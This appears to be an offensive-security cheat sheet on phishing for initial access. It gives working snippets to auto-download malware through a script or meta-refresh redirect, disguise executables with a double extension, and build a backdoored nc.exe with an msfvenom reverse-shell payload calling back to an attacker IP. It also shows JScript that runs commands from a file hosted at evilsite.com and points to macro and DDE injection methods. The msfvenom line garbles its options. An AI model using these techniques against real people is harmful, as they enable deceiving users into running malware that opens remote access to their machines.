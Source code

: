 # Social Engineering - Phishing

Gaining initial access to a network is often done using different kinds of social engineering attacks.

## Auto-download a malicious file

The techical part is not really that difficult here. In order to auto-download a file you just add this script to the malicious webpage

```
<script> document.location.href = 'shell53.exe'; </script>
```

Another way to do it is like this

```
<html>
<head>
<meta http-equiv="refresh" content="0; url=shell53.exe">
</head>
</html>
```

Of course the user will have to accept to download the file, unless the user has previously checked in the box automatically download. The user must then click the file for it to execute. This is where the social engineering part comes in, you really must trick the user into executing the file.

### Change the filename

Since windows by default remove the filename you can call your file shell.jpg.exe, and once downloaded onto the machine windows will display it as "shell.jpg".

### Embed malicious code in legitimate file

It is however very likely that this will be picked up by a antivirus.

```
msfvenom -a x86 --platform windows -x nc.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 lhost=53 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o ncMalicious.exe
```

## Autodownload a malicious javascript-file

Just like we can download an exe for a user to can also make that user download a javascript file. Since javascript files can execute commands on windows.

```
var oShell = new ActiveXObject("Shell.Application");
var commandtoRun = "C:\\Windows\\system32\\calc.exe";
oShell.ShellExecute(commandtoRun,"","","open","1");
```

```
http://evilsite.com/file.js
```

This code can be modified to greate a wget-script and then download and execute a script.

## Phishing

The most common tool for social engineering is to use Social Engineering Toolkit. SET. It comes as default in Kali. Run it like this:

```
setoolkit
```

## Spear phishing

## Word/excel macros

An explanation of how to createa malicious makro-wordfile.

[https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/](https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/)

## DDE Injection

This method is more well-known nowadays, but it can still be used to get code injection on a remote PC as macros will commonly be spotted.

[https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/)

## Embed a executable inside a PowerPoint

You can embed executables inside PowerPoint presentations and then have them execute about animations.

## Reference:

[https://www.youtube.com/watch?v=NTdthBQYa1k](https://www.youtube.com/watch?v=NTdthBQYa1k)

